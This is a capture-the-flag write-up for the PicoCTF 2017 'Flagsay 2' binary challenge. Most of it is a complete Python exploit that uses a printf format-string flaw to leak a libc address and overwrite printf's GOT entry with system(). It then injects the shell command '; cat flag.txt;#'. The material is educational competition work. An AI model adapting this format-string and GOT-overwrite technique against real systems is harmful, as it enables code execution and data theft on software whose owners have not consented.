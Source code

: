 # PicoCTF_2017: Flagsay 2

**Category:** Binary
**Points:** 150
**Description:**

Apparently I messed up using system(). I'm pretty sure this one is secure though! I hope [flagsay-2](https://webshell2017.picoctf.com/static/2ad22210c6988d4ff6fafa34902078e9/flagsay-2) is just as exhilarating as the the first one! [Source](https://webshell2017.picoctf.com/static/2ad22210c6988d4ff6fafa34902078e9/flagsay-2.c). Connect on shell2017.picoctf.com:20501.

**Hint:**

The buffer isn't on the stack, so you can't use your own pointers. Is there another way to get a pointer?

Make sure you know about using hn and $ in format strings

## Write-up

Thanks [kevinpark](https://github.com/kevinpark1217) for the py code to solve the challenge.

```python
from binascii import b2a_hex
from socket import socket, AF_INET, SOCK_STREAM
from struct import pack
from sys import argv
import time


# printf link
PRINTF_PLT = 0x8049970
# printf link offset for partial modification
PRINTF_OFFSET_PLT = PRINTF_PLT + 2
# Offset due to flag characters in the C program
FLAG_OFFSET = 129
# Offsets from 32-bit libc base
PRINTF_OFFSET = 0x4cc70
SYSTEM_OFFSET = 0x3e3e0

TARGET = "shell2017.picoctf.com"
PORT = 20501

sock = socket(AF_INET, SOCK_STREAM)
sock.connect((TARGET, PORT))
sock.setblocking(0)


def receive():
	"""Receives TCP data in segments
	Returns:
		The total data from all received segments
	"""
	net_data = ""
	start = time.time()
	while True:
		if time.time() - start > .5:
			break
		try:
			data = sock.recv(4096)
			if data:
				start = time.time()
				net_data += data
			else:
				time.sleep(0.1)
		except:
			pass
	return net_data


def send(msg):
	"""Sends TCP data terminated with newline character for a prompt"""
	sock.sendall(msg + "\n")


def format_string(value, location, modifier=""):
	"""Forms a string that will modify stack values in a C printf call directly on user input
	Args:
		value: Integer value to be written into the stack
		location: Number of pops required to reach the location to be written to
		modifier: String to be added to %n flag: h for 16-bit modification; hh for 8-bit modification
	Returns:
		A formatted string for use in a C printf vulnerability
	"""
	formatted_string = "%" + str(value) + "x" + "%" + str(location) + "$" + modifier + "n"
	return formatted_string

print(argv[0] + ": Exploit initiated. Average return time is 25 seconds due to large string usage, so please be patient.\n")

# BEGINNING OF STAGE 1
print("+ Determining printf() system address...")

print("\t* Writing printf() pointer to stack location 16 using a pointer at stack location 9")
payload = format_string(PRINTF_PLT - FLAG_OFFSET, 9)
print("\t\t* DATA SENT: " + payload)
send(payload)

receive()

print("\t* Dereferencing printf() pointer at stack location 16 to determine true address")
payload = "%16$s"
print("\t\t* DATA SENT: " + payload)
send(payload)

# Response to be used in the next stage
response = receive()
# END OF STAGE 1

# BEGINNING OF STAGE 2
print("+ Calculating offset for system() call...")

print("\t* Converting printf() true address into hexadecimal")
response = "".join(response.split(" ")[86:89])
response = str(b2a_hex(response))[:12]

print("\t* Formatting printf() true address from binary into integer form")
# Must reverse because system is little-endian
printf_addr = "0x" + response[-2:] + response[-4:-2] + response[-6:-4] + response[-8:-6]
print("\t\t* printf() true address: " + printf_addr)
# Conversion actually happens here
printf_addr = int(printf_addr, 16)

print("\t* Calculating libc offsets to obtain system() address")
system_addr = printf_addr - PRINTF_OFFSET + SYSTEM_OFFSET
system_addr = hex(system_addr)
print("\t\t* system() true address: " + system_addr)

print("\t* Segmenting system address to write in 16-bit parts")
system_addr_seg = ("0x" + system_addr[2:-4], "0x" + system_addr[-4:])

print("\t* Priming stack by creating a pointer to the first half of printf() address")
payload = format_string(PRINTF_OFFSET_PLT - FLAG_OFFSET, 18)
print("\t\t* DATA SENT: " + payload)
send(payload)

receive()

print("\t* Rewriting printf() address to system() address")
# Note: Second write does not require subtracting FLAG_OFFSET
first_write = int(system_addr_seg[1], 16) - FLAG_OFFSET
second_write = int(system_addr_seg[0], 16) - int(system_addr_seg[1], 16)
payload = format_string(first_write, 16, "h")
payload += format_string(second_write, 55, "h")
print("\t\t* DATA SENT: " + payload)
send(payload)

receive()

# END OF STAGE 2

# BEGINNING OF STAGE 3
print("+ Executing payload (cat flag.txt)...")
payload = "; cat flag.txt;#"
print("\t* DATA SENT: " + payload)
send(payload)
print("===Done! Last server response (includes flag):===\n" + receive())
# END OF STAGE 3

sock.close()
```


<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIwMTk5MjIyMjAsLTM2NDU2MjgyNF19
-->